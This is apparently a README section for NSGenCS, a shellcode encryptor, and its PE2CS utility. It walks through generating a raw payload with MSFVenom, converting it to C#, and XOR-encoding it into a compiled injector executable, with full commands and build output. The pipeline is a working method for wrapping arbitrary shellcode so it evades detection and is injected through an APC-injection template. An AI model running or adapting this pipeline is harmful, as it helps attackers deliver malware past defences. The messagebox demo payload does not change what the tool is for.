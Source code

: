 ![image](https://user-images.githubusercontent.com/21687763/130750571-b992a951-d32b-49cd-8fb9-778ce54aca88.png)

Want to reflectively load a PE file? Well now you can if you need to.

It's as simple as just `PE2CS inputfile.exe > outputfile.cs` and use the `outputfile.cs` as your C# input file.

Hopefully this shows how you can use templates from all sorts of different projects, drop them in this framework and with a few minor adjustments, you're good to go.

# PE2CS

The included utility PE2CS will also convert any raw shellcode into the correct format to use with NSGENCS. Here we take the raw output from MSFVenom and parse it using PE2CS:

```
C:\Tools\NSGenCS>c:\metasploit-framework\bin\msfvenom.bat -p windows/x64/messagebox TEXT=NSGENCS TITLE=NSGENCS -f raw > msgbox.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 283 bytes


C:\Tools\NSGenCS>pe2cs msgbox.bin > msgbox.cs

C:\Tools\NSGenCS>python NSGenCS.py -file msgbox.cs -method xor -key 0x55 -out p3.exe



███╗   ██╗███████╗ ██████╗ ███████╗███╗   ██╗ ██████╗███████╗
████╗  ██║██╔════╝██╔════╝ ██╔════╝████╗  ██║██╔════╝██╔════╝
██╔██╗ ██║███████╗██║  ███╗█████╗  ██╔██╗ ██║██║     ███████╗
██║╚██╗██║╚════██║██║   ██║██╔══╝  ██║╚██╗██║██║     ╚════██║
██║ ╚████║███████║╚██████╔╝███████╗██║ ╚████║╚██████╗███████║
╚═╝  ╚═══╝╚══════╝ ╚═════╝ ╚══════╝╚═╝  ╚═══╝ ╚═════╝╚══════╝

NS Payload Encryptor by @bb_hacks                                                                                       

> Creating encoded shellcode from CS file
> Generating payload
> Cleanup
Microsoft (R) Build Engine version 16.10.2+857e5a733 for .NET
Copyright (C) Microsoft Corporation. All rights reserved.

  Determining projects to restore...
  Restored C:\Tools\NSGenCS\APC_Inj_New\Payload.csproj (in 94 ms).
  Payload -> C:\Tools\NSGenCS\APC_Inj_New\bin\Release\net45\win10-x64\Payload.exe
  Payload -> C:\Tools\NSGenCS\APC_Inj_New\bin\Release\net45\win10-x64\publish\
        1 file(s) copied.

You should see p3.exe now

C:\Tools\NSGenCS>p3.exe
```
